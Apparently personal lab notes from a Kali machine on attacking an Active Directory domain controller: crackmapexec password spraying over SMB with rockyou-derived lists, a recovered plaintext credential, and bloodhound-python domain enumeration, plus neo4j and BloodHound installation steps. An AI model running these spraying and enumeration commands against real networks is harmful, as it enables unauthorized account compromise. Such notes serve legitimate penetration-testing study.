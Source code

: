 # Working with a Kali machine

- Used crackmapexec to crack user:pass combinations for low level users on the DC from files we created.

  added random passwords from rockyou.txt into passwords.txt
  added random users from the user.txt file 

- To run properly crackmapexec command had to configure the /etc/hosts file and the /etc/resolve.conf to add the DC address to it
  crackmapexec smb <ip> -u users.txt -p passwords.txt

  Continue enumerating even when the user:pass combination has been found for a user
  crackmapexec smb 192.168.8.155 -u users.txt -p passwords.txt --continue-on-success

- Getting ready for bloodhound installing with neo4j  
  sudo echo "deb http://httpredir.debian.org/debian stretch-backports main" | sudo tee -a /etc/apt/sources.list.d/stretch-backports.list
  sudo apt-get update
  wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -\necho 'deb https://debian.neo4j.com stable latest' > /etc/apt/sources.list.d/neo4j.list\nsudo apt-get update
  sudo apt-get install apt-transport-https
  sudo apt-get install neo4j

  Access the gui (localhost:7474) and changed the default password for neo4j


- Installed bloodhound latest release from https://github.com/BloodHoundAD/BloodHound/releases
  ./BloodHound 

  ...Starting bloodhound
  
- Sharphound python version from github https://github.com/fox-it/BloodHound.py
  pip install bloodhound
  added bloodhound-python to the $PATH
  /home/kali/.local/bin 
  subl ~/.zshrc
  source ~/.zshrc
  added /home/kali/.local/bin to the file
  
  Running the command with the default username and password we had found with crackmapexec earlier
  bloodhound-python -u adavies -p eminem -dc dc1.xyz.com --disable-autogc -d xyz.com
  
  To get All 
  loodhound-python -u adavies -p eminem -dc dc1.xyz.com --disable-autogc -d xyz.com -c All

- the output generates multiple .json files we can use to upload into the bloodhound GUI and analyze the AD users,groups, and other parameters
- Installed bloodhound, neo4j, and a python version of sharphound (bloodhound-python)  
